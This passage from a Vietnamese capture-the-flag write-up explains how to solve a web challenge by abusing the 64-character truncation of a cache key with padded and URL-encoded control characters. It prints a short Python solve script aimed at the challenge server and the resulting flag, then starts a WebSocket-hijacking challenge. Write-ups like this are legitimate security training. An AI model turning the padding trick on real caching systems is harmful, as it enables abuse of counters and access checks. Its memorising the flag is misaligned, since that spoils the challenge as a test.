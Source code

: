 Ok ngon rồi thế thì chỉ cần spam 100 dấu cách là được nhưng có 1 vấn đề là nó chỉ lấy 64 kí tự đầu của chuỗi `f"GET_check_uuids:{normalize_uuid(request.args.get('uuid'))}"[:64]` nên mình chỉ spam đến 86 là ngừng rồi 

![image](https://hackmd.io/_uploads/Syh8DetKyx.png)

Lúc này mình mới thử các ký tự null xem sao và wow nó trừ xuống được

![image](https://hackmd.io/_uploads/Hy3OPlYFJl.png)

Từ đó mình có thể sử dụng %00 -> %20 mỗi cái 10 lần thì chắc chắn count down được từ 100 xuống 0 thôi

Và đây là solve script của mình : 

```python
import requests
url = "https://cache-it-to-win-it.chall.lac.tf/check?uuid=ad53251d-3cc9-41b2-af95-44f7b787ce06"
for i in range(20):
    url2 = url
    for j in range(10):
        url2 += str('%'+'%02d'%i)
        r = requests.get(url2)
        print(r.text)
```

Sau khi chạy thì ta có flag

![image](https://hackmd.io/_uploads/Sy6cPetKyx.png)

`Flag: lactf{my_c4ch3_f41l3d!!!!!!!}`

## plinko

![image](https://hackmd.io/_uploads/HJwQ45y9yg.png)

### Source

https://drive.google.com/file/d/1qgN9ZaWqeuyOYgj4VkZBpBuFV9QOLFlV/view?usp=sharing

### Hints

Hijack Web socket

### Solution

Challenge cho mình một trang web sau 

![image](https://hackmd.io/_uploads/BkvYEycK1l.png)

Web này mô phỏng trò chơi plinko như sau

![image](https://hackmd.io/_uploads/BJ-JHJqtke.png)

